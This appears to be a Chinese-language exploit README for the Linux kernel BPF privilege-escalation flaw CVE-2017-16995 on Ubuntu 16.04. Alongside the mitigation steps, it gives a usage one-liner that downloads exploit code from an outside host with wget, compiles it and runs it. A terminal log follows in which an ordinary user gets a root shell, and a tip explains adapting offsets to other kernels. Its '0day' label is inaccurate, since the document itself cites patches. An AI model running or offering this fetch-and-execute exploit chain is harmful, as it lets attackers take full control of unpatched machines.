 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
### Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）实现不正确地执行了符号扩展。本地攻击者可以使用它来导致拒绝服务（系统崩溃）或可能执行任意代码。（CVE-2017-16995）

<jannh@google.com>

从v4.14开始，只要不是root的用户可以利用它

非特权用户可以使用此漏洞在系统上升级其权限。设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级

前提条件：unprivileged_bpf_disabled sysctl未设置

Debian为此问题分配了CVE-2017-16995

### 漏洞测试环境
```
➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```
通过修改内核参数限制普通用户使用bpf(BPF_PROG_LOAD)系统调用

echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled
__________________________________________________________________________________________________

echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

reboot

```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0

```
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小



### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



